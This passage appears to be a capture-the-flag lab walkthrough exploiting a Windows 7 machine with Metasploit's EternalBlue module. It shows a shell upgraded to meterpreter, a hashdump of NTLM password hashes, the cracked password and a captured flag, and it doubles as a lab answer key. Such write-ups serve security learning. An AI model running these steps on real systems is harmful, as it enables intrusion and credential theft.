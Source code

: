 ```bash
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                                                Connection
  --  ----  ----                     -----------                                                                ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Mic  10.10.158.144:4444 -> 10.10.75.105:49197 (10.10.75.105)
                                     ros...
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                                               10.10.158.144:4433 -> 10.10.75.105:49217 (10.10.75.105)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions 2
[*] Starting interaction with 2...

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? `Jon`
    
- Copy this password hash to a file and research how to crack it. What is the cracked password? `alqfna22`

### Task5
```bash
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  02:27 PM                24 flag1.txt
07/13/2009  10:20 PM    <DIR>          PerfLogs
04/12/2011  03:28 AM    <DIR>          Program Files
03/17/2019  05:28 PM    <DIR>          Program Files (x86)
12/12/2018  10:13 PM    <DIR>          Users
03/17/2019  05:36 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,439,040,000 bytes free

C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
```